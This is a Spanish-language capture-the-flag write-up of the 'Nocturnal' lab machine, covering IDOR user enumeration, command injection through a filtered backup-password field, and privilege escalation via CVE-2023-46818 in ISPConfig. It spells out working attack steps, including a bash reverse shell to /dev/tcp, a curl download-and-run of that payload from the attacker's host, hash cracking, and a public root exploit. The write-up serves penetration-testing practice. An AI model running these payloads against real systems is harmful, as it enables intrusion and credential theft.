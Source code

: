 - ---------
- Tags: #Linux #Easy 
- Skills Required: #Basic-Web-Enumeration #Basic-Knowledge-of-source-code-review #Basic-Database-Enumeration 
- Skills Learned: #Enumerating-and-exploiting-IDOR-vulnerabilities #Source-code-review-in-PHP-applications #Exploiting-Command-Injections-Vulnerabilities #Enumerating-SQLite-databases
-  - - -- - 
# Descripción:
Nocturnal es una máquina Linux de dificultad media que presenta una vulnerabilidad IDOR en una aplicación web PHP, lo que permite el acceso a los archivos subidos por otros usuarios. Se recuperan las credenciales para iniciar sesión en el panel de administración, donde se accede al código fuente de la aplicación. Se identifica una vulnerabilidad de inyección de comandos que proporciona una shell inversa como el usuario www-data. Se extraen hashes de contraseñas de una base de datos SQLite y se descifran para obtener acceso SSH como el usuario tobias. La explotación de CVE-2023-46818 en la aplicación ISPConfig permite la ejecución remota de comandos, lo que conlleva una escalada de privilegios al usuario root.
- - -- -
# Enumeración:
------
Comenzamos realizando un escaneo con Nmap en busca de puertos abiertos.
`nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn <IP>`
El resultado del escaneo nos revela que hay dos puertos abiertos en la máquina víctima, el 22 y el 80:
- En el puerto 22 corre OpenSSH.
- En el puerto 80 corre un servicio web (Nginx 1.18.0) a través del protocolo HTTP.
Para poder ver la web debemos añadirla al archivo `/etc/hosts`.

Al entrar en la web vemos que se nos da la opción de registrarnos e iniciar sesión, lo hacemos, una vez logueados observamos un campo que nos permite hacer una subida de archivos.
Al probar a subir un archivo .php nos aparece un mensaje "Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.", en este nos indican los tipos permitidos.
Si intentamos subir un archivo .pdf vemos que se sube sin ningún problema, al hacer hovering vemos que se nos redirige al siguiente enlace, `http://nocturnal.htb/view.php?username=user&file=test.pdf`, gracias a esto tenemos un forma potencial de enumerar usuarios, ya que si el usuario introducido no existe se nos devuelve el siguiente mensaje "User not found".

Ahora vamos a enumerar los usuarios existentes mediante un ataque de fuzzing al parámetro "username".
`ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' -w /usr/share/Sec-Lists/Usernames/Names/names.txt -H 'Cookie: PHPSESSID=<YOUR-COOKIE>' -fs 2985`
Al finalizar el ataque de fuzzing vemos que hay un usuario llamado "amanda", por lo que si visitamos el siguiente enlace `http://nocturnal.htb/view.php?username=amanda&file=test.pdf`, se nos muestra que el usuario "amanda" tiene un archivo llamado "privacy.odt".

Nos descargamos el archivo "privacy.odt" y lo abrimos con `odt2txt privacy.odt`, dentro del contenido del archivo encontramos la credencial "arHkG7HAI68X8s1J" para el usuario "amanda". Con esto nos podemos loguear como "amanda" en el servicio web.
- - - -
# Explotación:
- - - - -
Al loguearnos vemos que "amanda" tiene acceso al Panel de Administración, en este se nos permite crear Backups de la app al proporcionar una contraseña.
Al realizar el backup vemos que es similar a la creación de un archivo .zip, por lo que la contraseña será la que permita acceder, como tenemos control sobre el campo de introducción de la contraseña, podríamos intentar inyectar comandos ayudándonos de ";".
Probamos a introducir `password; id`, lo que nos devuelve un error, por lo cual el campo de la contraseña podría estar siendo filtrado.

Otra cosa que se nos permite en el Panel de Administración es ver archivos de código, al ver el archivo "admin.php" vemos que estábamos en lo cierto, el campo está filtrado.
Observamos que hay una blacklists en lugar de filtrar los caracteres uno por uno. Además el carácter "space" está también bloqueado. Por otro lado vemos que los tabs y los saltos de línea no lo están.
Para que los tabs y los saltos de línea sean interpretados deben estar URL-encodeados:
- Tabs -> \t -> %09
- Salto de línea -> \n -> %0a
Usando estos caracteres, un payload nos puede permitir entablarnos una shell. Para llevar a cabo esto debemos de cumplir con dos fases:
- Fase 1 -> Descargarnos el payload con la shell a la máquina víctima utilizando `curl`.
- Fase 2 -> Ejecutar el payload con la shell que nos hemos descargado con `bash`.

El payload con la shell lo creamos así:
`echo "bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/<PORT> 0>&1'" > shell`
A continuación nos levantamos un servidor HTTP en el puerto 80 con Python, `python3 -m http.server 80`.
Ahora debemos interceptar (con BurpSuite) la petición de crear un backup e introducimos lo siguiente, `password=test%0acurl%09http://<YOUR-IP>/shell%09-o%09/tmp/shell&backup=`, una vez enviada la petición nos debería de llegar una conexión a nuestro servidor HTTP mediante el método GET para el archivo /shell.

La fase 1 estaría completada, ahora pasaremos a la fase 2, en primer lugar debemos interceptar la petición de nuevo, pero en este caso introduciremos lo siguiente, `password=test%0abash%09/tmp/shell&backup=`, antes de enviar la petición nos ponemos a la escucha por el puerto que especificamos anteriormente, `nc -nlvp <PORT>`, ahora mandamos la petición.

Recibimos una shell como el usuario "www-data" en nuestra máquina atacante.
- -- - -
# Movimiento Lateral:
----
Después de realizar el tratamiento de la TTY, enumeramos el directorio web application.
Es dentro de application's web root donde encontramos un archivo llamado "nocturnal_database.db", abrimos la base de datos, `sqlite3 nocturnal_database.db`, listamos las tablas `.tables` y vemos una tabla llamada users, la cuál vamos a enumerar, `select * from users;`, aquí vemos la contraseña en hash para el usuario "tobias".
A continuación vamos a crackear el hash con hashcat, `hashcat -m 0 hash /usr/share/wordlists/rockyou.txt`, la contraseña en texto claro es "slowmotionapocalypse", usando esta contraseña nos podemos conectar a la máquina víctima como "tobias" a través de SSH y obtener la flag de usuario.
- - - -
# Elevación de Privilegios:
-----
Seguimos con la enumeración, ahora como el usuario "tobias", al hacer uso de `ss -tlnp` vemos que el puerto 8080 está abierto para la interfaz local.
Vamos a hacer port-forwarding de el puerto 8080 de la máquina víctima a la máquina atacante para investigar más, `ssh -L 8080:127.0.0.1:8080 -N -vv tobias@nocturnal.htb`.
Ahora podemos visitar `http://127.0.0.1:8080` desde nuestra máquina atacante.

Se puede observar como se encuentra corriendo ISPConfig, esto es un panel de control de alojamiento de código abierto para Linux. Podemos loguearnos como usuario "admin" y la contraseña que crackeamos para el usuario "tobias".
Una vez dentro vamos a la pestaña "help", donde se nos muestra la versión de ISPConfig, la cual es la 3.2.10p1.

Con esto podemos realizar una búsqueda en Google para encontrar vulnerabilidades para esta versión. Rápidamente encontramos el `CVE-2023-46818` que nos permite ejecución remota de código.
Encontramos una Proof-Of-Concept (PoC) en GitHub, la cual podemos usar para explotar esta vulnerabilidad.

Primero nos clonamos el repositorio, `git clone https://github.com/bipbopbup/CVE-2023-46818-python-exploit.git`, una vez dentro del repositorio clonado, podemos ejecutar el archivo "exploit.py" pasándole la contraseña para el usuario "admin", este nos otorga una shell interactiva como "root".
`python3 exploit.py http://127.0.0.1:8080 admin slowmotionapocalypse`
Al recibir la shell hacemos uso del comando `id` y vemos que somos root, por lo que finalmente podemos obtener la flag de root.